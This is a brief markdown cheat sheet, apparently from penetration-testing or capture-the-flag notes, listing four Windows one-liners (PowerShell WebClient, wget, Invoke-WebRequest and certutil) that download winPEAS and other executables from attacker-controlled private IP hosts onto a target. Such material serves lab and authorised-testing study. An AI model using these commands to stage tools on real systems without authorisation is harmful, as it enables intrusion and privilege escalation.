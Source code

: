 # Windows (downloading)

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.7:8888/winPEAS.bat', 'win.bat')
```

```
powershell -c wget "http://10.11.1.198/Advanced.exe" -outfile Advanced.exe
```

```
powershell -c "Invoke-WebRequest -OutFile winPEAS.exe http://10.11.17.48/winPEAS.exe"
```

```
certutil.exe -urlcache -split -f http://10.11.14.106:80/Advanced.exe
```
